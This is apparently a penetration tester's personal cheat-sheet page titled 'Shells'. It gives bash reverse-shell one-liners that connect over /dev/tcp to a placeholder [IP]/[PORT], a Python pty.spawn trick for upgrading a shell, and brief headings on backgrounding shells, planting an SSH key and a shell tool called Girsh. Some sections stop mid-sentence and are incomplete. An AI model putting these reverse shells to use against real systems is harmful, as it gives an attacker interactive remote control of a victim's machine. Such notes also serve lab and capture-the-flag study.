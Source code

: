 # Shells

Always remember to check your IP: [[Linux Networking#Get your IP]]

## Bash Reverse

```bash
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

or

```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
```

## Upgrading a Shell

Often, you can simply run `/bin/bash` or equivalent to launch a better shell.

Use `echo "$SHELL"` to determine the shell you're using. Then specify the full path to that shell and it will sometimes spawn you a better, more interactive shell.

```bash
┌──(mac㉿kali)-[~]
└─$ echo "$SHELL"
/bin/bash
┌──(mac㉿kali)-[~]
└─$ /bin/bash
```

### Using Python to spawn /bin/bash

```bash
which bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Way to automatically pass result of `which bash` to `pty.spawn()` call?

### Backgrounding Shell Trick

Within your shell, possibly after 

*Note:* This does not work in meterpreter or metasploit shells in general.

### Use your shell to write an SSH key

This is one of the most reliable

### Girsh

[Repo link](https://github.com/nodauf/Girsh)